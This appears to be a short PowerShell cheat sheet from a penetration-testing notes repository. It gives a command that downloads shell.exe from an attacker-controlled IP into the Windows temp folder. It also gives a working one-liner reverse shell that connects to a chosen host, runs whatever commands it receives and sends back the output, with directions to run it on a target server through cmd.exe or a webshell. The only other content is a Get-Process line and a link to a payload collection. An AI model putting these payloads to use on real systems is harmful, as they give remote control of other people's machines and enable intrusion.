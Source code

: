 # Powershell Cheat Sheet

## Table of Contents

- [Download something](#download-something)
- [Reverse Shell](#reverse-shell)
- [See Also](#see-also)
- [Get the process information](#get-the-process-information)

## Download something

```commandline
powershell -c "Invoke-WebRequest -uri 'http://<LOCAL-IP>:<PORT>/SOME_FILE' -outfile 'C:\Windows\temp\SOME_FILE'"
```

For example:

```commandline
powershell -c "Invoke-WebRequest -uri 'http://10.8.208.30:8000/shell.exe' -outfile 'C:\Windows\temp\shell.exe'"
```

## Reverse shell

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

```commandline
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

In order to use this, we need to replace "<IP>" and "<port>" with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell.

## Get the process information

    Get-Process

## See Also

- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell>
